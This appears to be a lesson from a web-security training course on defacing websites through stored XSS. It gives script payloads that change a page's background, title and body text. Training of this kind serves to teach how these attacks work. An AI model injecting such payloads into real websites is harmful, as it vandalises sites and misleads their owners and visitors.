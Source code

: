 # Defacing
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. `Defacing` a website means changing its look for anyone who visits the website.
## Defacement Elements
Four HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

We can utilize two or three of these elements to write a basic message to the web page and even remove the vulnerable element, such that it would be more difficult to quickly reset the web page, as we will see next.
## Changing Background
To change a web page's background, we can choose a certain color or use an image. We will use a color as our background:
```html
<script>document.body.style.background = "#141d2b"</script>
```
- We can use any other hex value, or can use a named color like `= "black"`.

Another option would be to set an image to the background using the following payload:
```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```
## Changing Page Title
We can change the page title to any title of our choosing, using the `document.title` JavaScript property:
```html
<script>document.title = 'HackTheBox Academy'</script>
```
## Changing Page Text
We can change the text of a specific HTML element/DOM using the `innerHTML` property:
```javascript
document.getElementById("todo").innerHTML = "New Text"
```

We can also utilize jQuery functions for more efficiently achieving the same thing or for changing the text of multiple elements in one line (to do so, the `jQuery` library must have been imported within the page source):
```javascript
$("#todo").html('New Text');
```

With this, we can change the entire HTML code of the main `body`, using `innerHTML`, as follows:
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```
- We can specify the `body` element with `document.getElementsByTagName('body')`, and by specifying `[0]`, we are selecting the first `body` element
